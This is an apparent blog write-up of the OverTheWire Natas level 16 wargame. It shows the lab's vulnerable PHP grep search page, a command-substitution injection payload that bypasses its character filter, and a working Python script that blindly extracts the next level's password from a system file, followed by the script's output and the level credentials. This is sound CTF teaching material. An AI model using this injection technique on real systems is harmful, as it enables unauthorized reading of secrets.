 +++
author = "Alex Domnit"
title = 'Natas-Level 16'
date = 2024-08-24T14:37:52+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas16*\
*Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo*\
*URL:      http://natas16.natas.labs.overthewire.org*

### Doc
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.\
[What is php?](https://en.wikipedia.org/wiki/PHP)\
PHP is a general-purpose scripting language geared towards web development. It was originally created by Danish-Canadian programmer Rasmus Lerdorf in 1993 and released in 1995. The PHP reference implementation is now produced by the PHP Group.

### Solution
We should examine the index page of **natas16** as per usual. There is a word search field just like in a previous letter and a search button.

<img src="/img/natas/natas16-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
<strong>Source code:</strong>

{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
#### What does this code do?
The important selection out of all of that code is this: 
```
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
This code snippet submits the sent data from the <strong>natas16 index page</strong> and searches the dictionary.txt file in order to find matching words that contain the given pattern. There is also some illegal character filter in place in order to make PHP injection more difficult to perform. The sollution to this level will be extremly similar to that of <strong>natas15</strong> since we are gonna try data and use the response packets we get in order to filter out usefull data.
#### Grep documentation needed:
```
grep (1)             - print lines that match patterns
    -E, --extended-regexp     PATTERNS are extended regular expressions
```
We are gonna do an extended regex in order to fill out characters in the password for <strong>natas17</strong> in conjunction with a word that we know is present in the <strong>dictionary.txt</strong> file, then if the response contains the word, we know that the selected character is in the password, otherwise not.
#### Grep format:
```
$(grep -E ^ string/character.* /etc/natas_webpass/natas17)Existing_key
```
We need to find a string that appears in <strong>dictionary.txt</strong>:

<img src="/img/natas/natas16-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
Now all that is left to do is implement this in a python script just like we did previously.

#### The script:
```
import requests

target = 'http://natas16.natas.labs.overthewire.org'
possible = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'


final = ''
i = 0
while len(final) != 32:
	while i < len(possible):
		character = possible[i]
		needle = ('$(grep -E ^%s%c.* /etc/natas_webpass/natas17)abandoned' % (final, character))
		req = requests.get(target,
			auth=('natas16','hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'),
			params={"needle": needle}
		)
		if "abandoned" not in req.text:
			final += character
			print ('Password so far : ' + final)
			i = 0
		else:
			i += 1
print ("----Script Finished----")
print ("Password is : " + final)
```
Now all that is left to do is run the script and obtain the password for <strong>natas17</strong>.
#### Script run:
```
02:59:31 archie@Archie python → python3 scriptnatas16.py
Password so far : E
Password so far : Eq
Password so far : Eqj
Password so far : EqjH
Password so far : EqjHJ
Password so far : EqjHJb
Password so far : EqjHJbo
Password so far : EqjHJbo7
Password so far : EqjHJbo7L
Password so far : EqjHJbo7LF
Password so far : EqjHJbo7LFN
Password so far : EqjHJbo7LFNb
Password so far : EqjHJbo7LFNb8
Password so far : EqjHJbo7LFNb8v
Password so far : EqjHJbo7LFNb8vw
Password so far : EqjHJbo7LFNb8vwh
Password so far : EqjHJbo7LFNb8vwhH
Password so far : EqjHJbo7LFNb8vwhHb
Password so far : EqjHJbo7LFNb8vwhHb9
Password so far : EqjHJbo7LFNb8vwhHb9s
Password so far : EqjHJbo7LFNb8vwhHb9s7
Password so far : EqjHJbo7LFNb8vwhHb9s75
Password so far : EqjHJbo7LFNb8vwhHb9s75h
Password so far : EqjHJbo7LFNb8vwhHb9s75ho
Password so far : EqjHJbo7LFNb8vwhHb9s75hok
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5T
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF0
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF0O
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
----Script Finished----
Password is : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```